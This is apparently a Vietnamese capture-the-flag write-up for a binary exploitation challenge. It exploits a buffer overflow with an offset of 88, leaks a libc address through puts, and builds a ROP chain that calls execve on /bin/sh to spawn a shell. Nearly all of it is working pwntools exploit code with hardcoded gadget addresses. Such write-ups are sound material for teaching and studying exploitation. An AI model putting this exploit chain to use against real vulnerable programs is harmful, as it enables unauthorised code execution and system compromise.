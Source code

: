 ## Ý tưởng

- Định hướng bài nay ta có thể dùng ROP.
- Ta sẽ leak libc để lấy chuỗi /bin/sh vì trong chương trình không có /bin/sh
- tiếp theo sẽ sử dụng ROP để lấy các pop cần thiết, lưu ý pop_rax

## Khai thác

### Leak libc

- Ta chọn option 1 vì nó có lỗi BOF
- Offset là 88
- Do là ghi đè ở ret main nên ta phải chọn option 3 để có thể leak =)))

```python
p.sendlineafter(b'> ', b'1')

payload = b'A'

p.sendafter(b'song: ', payload)

payload = b'A'*88
payload += p64(pop_rdi_exe) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
p.sendafter(b'URL: ', payload)

p.sendlineafter(b'> ', b'3')
```

- Tính toán libc base

```python
libc_leak = u64(p.recv(6) + b'\0\0')
log.info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))
```

## ROP

```python
p.sendlineafter(b'> ', b'1')

payload = b'A'

p.sendafter(b'song: ', payload)

#ret = 0x000000000040101a
pop_rdi = 0x0000000000401463
pop_rsi_r15 = 0x00000000004011d6
pop_rdx = 0x00000000004011d8
pop_rax = 0x0000000000401148
syscall = 0x00000000004011dd

payload1 = b'A'*88
payload1 += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload1 += p64(pop_rsi_r15) + p64(0) + p64(0)
payload1 += p64(pop_rdx) + p64(0)
payload1 += p64(pop_rax) + p64(0x3b)
payload1 += p64(syscall)

p.sendafter(b'URL: ', payload1)
p.sendlineafter(b'> ', b'3')

```